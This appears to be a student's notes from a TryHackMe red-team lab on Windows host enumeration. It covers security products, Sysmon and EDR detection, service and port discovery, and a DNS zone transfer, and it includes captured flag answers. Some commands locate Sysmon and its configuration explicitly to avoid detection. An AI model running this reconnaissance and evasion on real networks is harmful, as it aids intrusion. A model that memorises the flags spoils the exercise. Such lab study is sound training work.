Hyper-V - WMI (TCP-In)                                                          True Inbound rule for Hyper-V to all...
Hyper-V - WMI (TCP-Out)                                                         True Outbound rule for Hyper-V to al...
Hyper-V - WMI (Async-In)                                                        True Inbound rule for Hyper-V to all...
Hyper-V (RPC-EPMAP)                                                             True Inbound rule for the RPCSS serv...
Hyper-V (RPC)                                                                   True Inbound rule for Hyper-V to all...
Hyper-V (MIG-TCP-In)                                                            True Inbound rule for Hyper-V to all...
Hyper-V (REMOTE_DESKTOP_TCP_IN)                                                 True Inbound rule for Hyper-V to all...
Hyper-V Replica HTTP Listener (TCP-In)                                         False Inbound rule for Hyper-V Replic...
Hyper-V Replica HTTPS Listener (TCP-In)                                        False Inbound rule for Hyper-V Replic...
THM-Connection                                                                  True THM-Connection inbound to 17337...
Core Networking - Teredo (ICMPv6-In)                                            True Echo Request messages are sent ...
Core Networking - Teredo (ICMPv6-Out)                                           True Echo Request messages are sent ...


PS C:\Users\kkidd>
PS C:\Users\kkidd> Get-NetFirewallRule | select DisplayName, Enabled, Description | findstr "THM-Connection"
THM-Connection                                                                  True THM-Connection inbound to 17337...
PS C:\Users\kkidd>
```


## Host Security Solution #2

Security Event Logging and Monitoring 

By default, Operating systems log various activity events in the system using log files. The event logging feature is available to the IT system and network administrators to monitor and analyze important events, whether on the host or the network side. In cooperating networks, security teams utilize the logging event technique to track and investigate security incidents. 

There are various categories where the Windows operating system logs event information, including the application, system, security, services, etc. In addition, security and network devices store event information into log files to allow the system administrators to get an insight into what is going on.

We can get a list of available event logs on the local machine using the Get-EventLog cmdlet.

```
PS C:\Users\thm> Get-EventLog -List

  Max(K) Retain OverflowAction        Entries Log
  ------ ------ --------------        ------- ---
     512      7 OverwriteOlder             59 Active Directory Web Services
  20,480      0 OverwriteAsNeeded         512 Application
     512      0 OverwriteAsNeeded         170 Directory Service
 102,400      0 OverwriteAsNeeded          67 DNS Server
  20,480      0 OverwriteAsNeeded       4,345 System
  15,360      0 OverwriteAsNeeded       1,692 Windows PowerShell

```
Sometimes, the list of available event logs gives you an insight into what applications and services are installed on the machine! For example, we can see that the local machine has Active Directory, DNS server, etc. For more information about the Get-EventLog cmdlet with examples, visit the Microsoft documents website.

In corporate networks, log agent software is installed on clients to collect and gather logs from different sensors to analyze and monitor activities within the network. We will discuss them more in the Network Security Solution task.

https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-eventlog?view=powershell-5.1


**System Monitor (Sysmon)**

Windows System Monitor sysmon is a service and device driver. It is one of the Microsoft Sysinternals suites. The sysmon tool is not an essential tool (not installed by default), but it starts gathering and logging events once installed. These logs indicators can significantly help system administrators and blue teamers to track and investigate malicious activity and help with general troubleshooting.

One of the great features of the sysmon  tool is that it can log many important events, and you can also create your own rule(s) and configuration to monitor:

- Process creation and termination
- Network connections
- Modification on file
- Remote threats
- Process and memory access
- and many others

For learning more about sysmon, visit the Windows document page here. 
https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon

As a red teamer, one of the primary goals is to stay undetectable, so it is essential to be aware of these tools and avoid causing generating and alerting events. The following are some of the tricks that can be used to detect whether the sysmon is available in the victim machine or not. 

We can look for a process or service that has been named "Sysmon" within the current process or services as follows,

```
PS C:\Users\thm> Get-Process | Where-Object { $_.ProcessName -eq "Sysmon" }

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    373      15    20212      31716              3316   0 Sysmon

```
or look for services as follows,

```
PS C:\Users\thm> Get-CimInstance win32_service -Filter "Description = 'System Monitor service'"
# or
Get-Service | where-object {$_.DisplayName -like "*sysm*"}

```
It also can be done by checking the Windows registry 
```
PS C:\Users\thm> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Sysmon/Operational

```

All these commands confirm if the sysmon tool is installed. Once we detect it, we can try to find the sysmon configuration file if we have readable permission to understand what system administrators are monitoring.
```
PS C:\Users\thm> findstr /si '<ProcessCreate onmatch="exclude">' C:\tools\*
C:\tools\Sysmon\sysmonconfig.xml:      
C:\tools\Sysmon\sysmonconfig.xml:      
```
For more detail about the Windows sysmon tool and how to utilize it within endpoints, we suggest trying the TryHackMe room: Sysmon.
- https://tryhackme.com/room/sysmon
- https://tryhackme.com/room/windowseventlogs

**Host-based Intrusion Detection/Prevention System (HIDS/HIPS)**
HIDS stands for Host-based Intrusion Detection System. It is software that has the ability to monitor and detect abnormal and malicious activities in a host. The primary purpose of HIDS is to detect suspicious activities and not to prevent them. There are two methods that the host-based or network intrusion detection system works, including:
- Signature-based IDS - it looks at checksums and message authentication.
- Anomaly-based IDS looks for unexpected activities, including abnormal bandwidth usage, protocols, and ports.

Host-based Intrusion Prevention Systems (HIPS) secure the operating system activities of the device where they are installed. It is a detection and prevention solution against well-known attacks and abnormal behaviours. HIPS can audit the host's log files, monitor processes, and protect system resources. HIPS combines many product features such as antivirus, behaviour analysis, network, application firewall, etc.

There is also a network-based IDS/IPS, which we will be covering in the next task. 

**Endpoint Detection and Response (EDR)**


It is also known as Endpoint Detection and Threat Response (EDTR). The EDR is a cybersecurity solution that defends against malware and other threats. EDRs can look for malicious files, monitor endpoint, system, and network events, and record them in a database for further analysis, detection, and investigation. EDRs are the next generation of antivirus and detect malicious activities on the host in real-time.

EDR analyze system data and behavior for making section threats, including

- Malware, including viruses, trojans, adware, keyloggers
- Exploit chains
- Ransomware

Below are some common EDR software for endpoints
- Cylance
- Crowdstrike
- Symantec
- SentinelOne
- Many others

Even though an attacker successfully delivered their payload and bypassed EDR in receiving reverse shell, EDR is still running and monitors the system. It may block us from doing something else if it flags an alert.

We can use scripts for enumerating security products within the machine, such as Invoke-EDRChecker and SharpEDRChecker. They check for commonly used Antivirus, EDR, logging monitor products by checking file metadata, processes, DLL loaded into current processes, Services, and drivers, directories.

- https://github.com/PwnDexter/Invoke-EDRChecker
- https://github.com/PwnDexter/SharpEDRChecker


## Network Security Solutions
Network Security Solutions

Network security solutions could be software or hardware appliances used to monitor, detect and prevent malicious activities within the network. It focuses on protecting clients and devices connected to the cooperation network. The network security solution includes but is not limited to:

- Network Firewall
- SIEM
- IDS/IPS

**Network Firewall**

A firewall is the first checkpoint for untrusted traffic that arrives at a network. The firewall filters the untrusted traffic before passing it into the network based on rules and policies. In addition, Firewalls can be used to separate networks from external traffic sources, internal traffic sources, or even specific applications. Nowadays, firewall products are built-in network routers or other security products that provide various security features. The following are some firewall types that enterprises may use.

- Packet-filtering firewalls
- Proxy firewalls
- NAT firewalls
- Web application firewalls

**Security Information and Event Management (SIEM)**

SIEM combines Security Information Management (SIM) and Security Event Management (SEM) to monitor and analyze events and track and log data in real-time. SIEM helps system administrators and blue teamers to monitor and track potential security threats and vulnerabilities before causing damage to an organization. 

SIEM solutions work as log data aggregation center, where it collects log files from sensors and perform functions on the gathered data to identify and detect security threats or attacks. The following are some of the functions that a SIEM may offer:

- Log management: It captures and gathers data for the entire enterprise network in real-time.
- Event analytics: It applies advanced analytics to detect abnormal patterns or behaviors, available in the dashboard with charts and statistics.
- Incident monitoring and security alerts: It monitors the entire network, including connected users, devices, applications, etcetera, and as soon as attacks are detected, it alerts administrators immediately to take appropriate action to mitigate.
- Compliance management and reporting: It generates real-time reports at any time.

SIEM is capable of detecting advanced and unknown threats using integrated threat intelligence and AI technologies, including Insider threats, security vulnerabilities, phishing attacks, Web attacks, DDoS attacks, data exfiltration, etc.

The following are some of the SIEM products that are commonly seen in many enterprises:

- Splunk
- LogRhythm NextGen SIEM Platform
- SolarWinds Security Event Manager
- Datadog Security Monitoring
- many others


**Intrusion Detection System and Intrusion Prevention System (NIDS/NIPS)**

Network-based IDS/IPS have a similar concept to the host-based IDS/IPS. The main difference is that the network-based products focus on the security of a network instead of a host. The network-based solution will be based on sensors and agents distributed in the network devices and hosts to collect data. IDS and IPS are both detection and monitoring cybersecurity solutions that an enterprise uses to secure its internal systems. They both read network packets looking for abnormal behaviors and known threats pre-loaded into a previous database. The significant difference between both solutions is that the IDS requires human interaction or 3rd party software to analyze the data to take action. The IPS is a control system that accepts or rejects packets based on policies and rules.

The following are common enterprise IDS/IPS products 

- Palo Alto Networks
- Cisco's Next-Generation 
- McAfee Network Security Platform (NSP)
- Trend Micro TippingPoint
- Suricata
 
For more information about IDS/IPS, visit the reference link.
https://geekflare.com/ids-vs-ips-network-security-solutions/


## Applications and Services

This task will expand our knowledge needed to learn more about the system. We discussed account discovery and security products within the system in previous tasks. We will continue learning more about the system, including:

- Installed applications
- Services and processes
- Sharing files and printers
- Internal services: DNS and local web applications
 
It is necessary to understand what the system provides in order to get the benefit of the information.


**Installed Applications**

First, we start enumerating the system for installed applications by checking the application's name and version. As a red teamer, this information will benefit us. We may find vulnerable software installed to exploit and escalate our system privileges. Also, we may find some information, such as plain-text credentials, is left on the system that belongs to other systems or services.

 We will be using the wmic Windows command to list all installed applications and their version.
```
PS C:\Users\thm> wmic product get name,version
Name                                                            Version
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910     14.28.29910
AWS Tools for Windows                                           3.15.1248
Amazon SSM Agent                                                3.0.529.0
aws-cfn-bootstrap                                               2.0.5
AWS PV Drivers                                                  8.3.4
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910  14.28.29910

```
Another interesting thing is to look for particular text strings, hidden directories, backup files. Then we can use the PowerShell cmdlets, Get-ChildItem, as follow:

```
PS C:\Users\kkidd> Get-ChildItem -Hidden -Path C:\Users\kkidd\Desktop\


    Directory: C:\Users\kkidd\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a-hs-        12/1/2021   4:53 PM            282 desktop.ini

```

**Services And Process**
Windows services enable the system administrator to create long-running executable applications in our own Windows sessions. Sometimes Windows services have misconfiguration permissions, which escalates the current user access level of permissions. Therefore, we must look at running services and perform services and processes reconnaissance.  For more details, you can read about process discovery on Attack MITRE.
https://attack.mitre.org/techniques/T1057/

Process discovery is an enumeration step to understand what the system provides. The red team should get information and details about running services and processes on a system. We need to understand as much as possible about our targets. This information could help us understand common software running on other systems in the network. For example, the compromised system may have a custom client application used for internal purposes. Custom internally developed software is the most common root cause of escalation vectors. Thus, it is worth digging more to get details about the current process.  

For more details about core Windows processes from the blue team perspective, check out the TryHackMe room: Core Windows Process.
https://tryhackme.com/room/btwindowsinternals


**SHARING FILES and PRINTER**

Sharing files and network resources is commonly used in personal and enterprise environments. System administrators misconfigure access permissions, and they may have useful information about other accounts and systems. For more information on printer hacking, we suggest trying out the following TryHackMe room: Printer Hacking 101.

https://tryhackme.com/r/room/printerhacking101

**Internal services: DNS, local web applications, etc**

Internal network services are another source of information to expand our knowledge about other systems and the entire environment. To get more details about network services that are used for external and internal network services, we suggest trying out the following rooms: Network Service, Network Service2.

https://tryhackme.com/room/networkservices
https://tryhackme.com/room/networkservices2

The following are some of the internal services that are commonly used that we are interested in:

- DNS Services
- Email Services
- Network File Share
- Web application
- Database service


### TASK

```powershell
PS C:\Users\thm> net start
These Windows services are started:

Active Directory Web Services
Amazon SSM Agent
Application Host Helper Service
Cryptographic Services
DCOM Server Process Launcher
DFS Namespace
DFS Replication
DHCP Client
Diagnostic Policy Service
THM Demo
DNS Client
...

# Now let's look for the exact service name, which we need to find more information.

PS C:\Users\thm> wmic service where "name like 'THM Demo'" get Name,PathName
Name         PathName
THM Service  c:\Windows\thm-demo.exe

# We find the file name and its path; now let's find more details using the Get-Process cmdlet. 

PS C:\Users\thm> Get-Process -Name thm-demo

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
     82       9    13128       6200              3212   0 thm-service
# Once we find its process ID, let's check if providing a network service by listing the listening ports within the system.

PS C:\Users\thm> netstat -noa |findstr "LISTENING" |findstr "3212"
  TCP    0.0.0.0:8080          0.0.0.0:0              LISTENING       3212
  TCP    [::]:8080             [::]:0                 LISTENING       3212
```

my attempt
```
PS C:\Users\kkidd> net start
These Windows services are started:

   Active Directory Web Services
   Amazon SSM Agent
   Application Host Helper Service
   Background Tasks Infrastructure Service
   Base Filtering Engine
   Certificate Propagation
   CNG Key Isolation
   COM+ Event System
   Connected Devices Platform Service
   Connected Devices Platform User Service_c3c10
   CoreMessaging
   Cryptographic Services
   Data Sharing Service
   DCOM Server Process Launcher
   Device Setup Manager
   DFS Namespace
   DFS Replication
   DHCP Client
   Diagnostic Policy Service
   Distributed Transaction Coordinator
   DNS Client
   DNS Server
   Group Policy Client
   Hyper-V Host Compute Service
   Hyper-V Virtual Machine Management
   IKE and AuthIP IPsec Keying Modules
   Intersite Messaging
   IP Helper
   IPsec Policy Agent
   Kerberos Key Distribution Center
   Local Session Manager
   Microsoft FTP Service
   Netlogon
   Network Connection Broker
   Network List Service
   Network Location Awareness
   Network Store Interface Service
   Plug and Play
   Power
   Print Spooler
   Remote Access Connection Manager
   Remote Desktop Configuration
   Remote Desktop Services
   Remote Desktop Services UserMode Port Redirector
   Remote Procedure Call (RPC)
   RPC Endpoint Mapper
   Secure Socket Tunneling Protocol Service
   Security Accounts Manager
   Server
   Shell Hardware Detection
   State Repository Service
   Storage Service
   SysMain
   Sysmon
   System Event Notification Service
   System Events Broker
   Task Scheduler
   TCP/IP NetBIOS Helper
   Themes
   THM Service
   Time Broker
   Touch Keyboard and Handwriting Panel Service
   Update Orchestrator Service
   User Access Logging Service
   User Manager
   User Profile Service
   Virtual Disk
   Web Account Manager
   Windows Connection Manager
   Windows Defender Antivirus Service
   Windows Defender Firewall
   Windows Event Log
   Windows Font Cache Service
   Windows License Manager Service
   Windows Management Instrumentation
   Windows Process Activation Service
   Windows Push Notifications System Service
   Windows Push Notifications User Service_c3c10
   Windows Remote Management (WS-Management)
   Windows Time
   Workstation
   World Wide Web Publishing Service

The command completed successfully.


wmic service where "name like 'THM Service'" get Name,Pathname
PS C:\Users\kkidd> wmic service where "name like 'THM Service'" get Name,Pathname
>>
Name         PathName
THM Service  c:\Windows\thm-service.exe

PS C:\Users\kkidd> Get-Process -name thm-service

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
     78       9    12672       5600              2848   0 thm-service

netstat -noa |findstr "LISTENING" |findstr "2848"

PS C:\Users\kkidd> netstat -noa |findstr "LISTENING" |findstr "2848"
>>
  TCP    0.0.0.0:13337          0.0.0.0:0              LISTENING       2848
  TCP    [::]:13337             [::]:0                 LISTENING       2848


localhost:13337
THM{S3rv1cs_1s_3numerat37ed}
```

---


We mentioned that DNS service is a commonly used protocol in any active directory environment and network. The attached machine provides DNS services for AD. Let's enumerate the DNS by performing a zone transfer DNS and see if we can list all records.

We will perform DNS zone transfer using the Microsoft tool is nslookup.exe.

```
PS C:\Users\thm> nslookup.exe
Default Server:  UnKnown
Address:  ::1
```
Once we execute it, we provide the DNS server that we need to ask, which in this case is the target machine
```
> server 10.10.128.166
Default Server:  [MACHINE_IP]
Address:  MACHINE_IP
```
Now let's try the DNS zone transfer on the domain we find in the AD environment.

```
> ls -d thmredteam.com
[[10.10.128.166]]
 thmredteam.com.                SOA    ad.thmredteam.com hostmaster.thmredteam.com. (732 900 600 86400 3600)
 thmredteam.com.                A      MACHINE_IP
 thmredteam.com.                NS     ad.thmredteam.com
***
 ad                             A      MACHINE_IP

```
my try
```
PS C:\Users\kkidd> nslookup.exe
Default Server:  ip-10-0-0-2.eu-west-1.compute.internal
Address:  10.0.0.2

> server 10.10.128.166
DNS request timed out.
    timeout was 2 seconds.
Default Server:  [10.10.128.166]
Address:  10.10.128.166

> ls -d thmredteam.com
[[10.10.128.166]]
 thmredteam.com.                SOA    ad.thmredteam.com hostmaster.thmredteam.com. (749 900 600 86400 3600)
 thmredteam.com.                A      10.10.129.59
 thmredteam.com.                NS     ad.thmredteam.com
 _msdcs                         NS     ad.thmredteam.com
 _gc._tcp.Default-First-Site-Name._sites SRV    priority=0, weight=100, port=3268, ad.thmredteam.com
 _kerberos._tcp.Default-First-Site-Name._sites SRV    priority=0, weight=100, port=88, ad.thmredteam.com
 _ldap._tcp.Default-First-Site-Name._sites SRV    priority=0, weight=100, port=389, ad.thmredteam.com
 _gc._tcp                       SRV    priority=0, weight=100, port=3268, ad.thmredteam.com
 _kerberos._tcp                 SRV    priority=0, weight=100, port=88, ad.thmredteam.com
 _kpasswd._tcp                  SRV    priority=0, weight=100, port=464, ad.thmredteam.com
 _ldap._tcp                     SRV    priority=0, weight=100, port=389, ad.thmredteam.com
 _kerberos._udp                 SRV    priority=0, weight=100, port=88, ad.thmredteam.com
 _kpasswd._udp                  SRV    priority=0, weight=100, port=464, ad.thmredteam.com
 ad                             A      10.10.128.166
 DomainDnsZones                 A      10.10.129.59
 _ldap._tcp.Default-First-Site-Name._sites.DomainDnsZones SRV    priority=0, weight=100, port=389, ad.thmredteam.com
 _ldap._tcp.DomainDnsZones      SRV    priority=0, weight=100, port=389, ad.thmredteam.com
 flag                           TXT             "THM{DNS-15-Enumerated!}"

 ForestDnsZones                 A      10.10.129.59
 _ldap._tcp.Default-First-Site-Name._sites.ForestDnsZones SRV    priority=0, weight=100, port=389, ad.thmredteam.com
 _ldap._tcp.ForestDnsZones      SRV    priority=0, weight=100, port=389, ad.thmredteam.com
 www                            A      10.10.141.51
 thmredteam.com.                SOA    ad.thmredteam.com hostmaster.thmredteam.com. (749 900 600 86400 3600)
>
```

## Conclusion
This room is an introduction to client systems in corporate environments. The student should have a better understanding of how clients are used in a corporate network including:

Network Infrastructure
AD environment
security measures (HIPS, AV, etc.)
Internal applications and services

rooms to test:
- https://tryhackme.com/room/btwindowsinternals
- https://tryhackme.com/room/sysmon
- https://tryhackme.com/room/windowseventlogs
- https://tryhackme.com/r/room/printerhacking101


